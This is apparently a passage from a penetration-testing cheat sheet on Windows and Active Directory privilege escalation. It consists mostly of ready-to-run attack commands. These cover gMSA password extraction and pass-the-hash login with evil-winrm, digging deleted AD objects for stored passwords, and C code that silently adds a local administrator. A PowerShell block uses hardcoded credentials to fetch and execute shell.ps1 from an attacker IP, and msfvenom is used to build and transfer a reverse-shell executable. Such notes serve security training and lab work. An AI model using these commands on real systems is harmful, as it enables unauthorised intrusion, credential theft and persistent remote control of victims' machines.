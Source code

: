 #### gMSA
- If your user is part of a group in 'PrincipalsAllowedToRetrieveManagedPassword'
  .\GMSAPasswordReader.exe --accountname 'svc_apache'
- Retrieve 'rc4_hmac' in Current Value
  evil-winrm -i 192.168.212.165 -u svc_apache$ -H 009E42B78BF6CEA5F5C067B32B99FCA6
- See accounts for Group Managed Service Account (gMSA) with Powershell
  Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}

#### AD Recycle Bin
- It's a well-known Windows group. Check if your user is in this group
- Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
- Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
- See if there is any strange entry, like `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz`. There might be a password

### Add new admin user

```C
#include <stdlib.h>
int main () {
    int i;
    i = system ("net user /add [username] [password]");
    i = system ("net localgroup administrators [username] /add");
    return 0;
}
```
- 32-bit Windows executable: `i686-w64-mingw32-gcc adduser.c -o adduser.exe`
- 64-bit Windows executable: `x86_64-w64-mingw32-gcc -o adduser.exe adduser.c`
- Note: [32-bit and 64-bit Windows: Frequently asked questions](https://support.microsoft.com/en-us/windows/32-bit-and-64-bit-windows-frequently-asked-questions-c6ca9541-8dce-4d48-0415-94a3faa2e13d)
- verify that the user has been added with `net user`
- run `echo password | runas /savecred /user:rootevil cmd`

### Log in with another user from the same machine

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost
```

### Generate a reverse shell

1. Generate the reverse shell on your attacker machine: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe`
2. Transfer it to the Windows machine with SMB: `sudo python3 /opt/impacket/examples/smbserver.py kali .` and then `copy \\<IP>\kali\reverse.exe C:\PrivEsc\reverse.exe`
